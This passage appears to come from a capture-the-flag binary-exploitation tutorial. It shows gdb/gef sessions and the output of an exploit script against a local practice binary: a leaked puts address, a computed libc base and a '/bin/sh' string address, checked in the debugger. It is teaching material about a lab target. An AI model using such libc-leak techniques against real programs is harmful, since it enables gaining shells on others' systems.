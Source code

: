 Let's continue the process with `continue`:-

```asm
gef➤  continue
Continuing.

```

Now, resuming the script:-

```asm
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 14517
[*] Paused (press any to continue)
[*] puts@libc : 0x7effdfd759c0
[*] libc      : 0x7effdfcf5000
[*] '/bin/sh' : 6295888
[*] Switching to interactive mode

Welcome to the world of Pwning
I'd like to know the name of brave warrior  
$  
```


---

```asm
Welcome to the world of Pwning
I'd like to know the name of brave warrior  
$  
```
 
This is printed because we called the `main` again.

---

Now, we will Interrupt the execution of program inside gdb to check if the address are correct:-

```asm
gef➤  p puts
$1 = {int (const char *)} 0x7effdfd759c0 <_IO_puts>
gef➤  
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/d4mianwayne/pwn1/chall
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/d4mianwayne/pwn1/chall
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/d4mianwayne/pwn1/chall
0x0000000001987000 0x00000000019a8000 0x0000000000000000 rw- [heap]
0x00007effdfcf5000 0x00007effdfedc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so

-- snip --
gef➤  x/s 6295888
0x601150:	"/bin/sh"
```
